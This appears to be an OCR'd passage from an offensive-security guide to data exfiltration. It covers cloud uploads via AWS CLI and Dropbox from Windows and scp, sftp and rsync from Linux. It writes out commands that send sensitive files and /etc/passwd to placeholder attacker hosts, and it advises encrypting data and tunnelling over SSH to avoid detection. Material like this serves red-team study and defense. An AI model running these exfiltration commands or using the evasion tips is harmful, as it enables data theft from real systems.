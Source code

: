     Tools:
        AWS CLI: Amazon Web Services Command Line Interface.
        Dropbox CLI: Dropbox Command Line Interface.
        PowerShell scripts using cloud service APIs.

    Command Examples:

        Using AWS CLI:

        bash

aws s3 cp C:\SensitiveData.txt s3://attacker-bucket/

Using Dropbox CLI:

bash

        dropbox_uploader.sh upload C:\SensitiveData.txt /sensitive/

    Recommendations:
        Use API keys that are hard-coded or injected at runtime.
        Encrypt data before uploading to avoid detection and analysis.

Data Exfiltration Techniques for Linux

Similar to Windows, Linux systems also offer multiple methods for data exfiltration. Attackers can exploit native tools, network protocols, and third-party applications to extract data stealthily.
A. SSH Exfiltration

Description: SSH is a widely used protocol for secure communication. Attackers can use SSH to transfer files from a compromised Linux system to an external server securely.

    Tools:
        scp: Secure Copy Protocol, part of the SSH suite.
        sftp: SSH File Transfer Protocol.
        rsync: A utility to sync files over SSH.

    Command Examples:

        Using scp:

        bash

scp /etc/passwd attacker@remote-server:/tmp/

Using sftp:

bash

sftp attacker@remote-server
put /etc/passwd /tmp/

Using rsync:

bash

        rsync -avz -e ssh /var/log/syslog attacker@remote-server:/tmp/

    Recommendations:
        Use key-based authentication for SSH connections to avoid password prompts.
        Utilize SSH tunneling for stealthier data transfer.
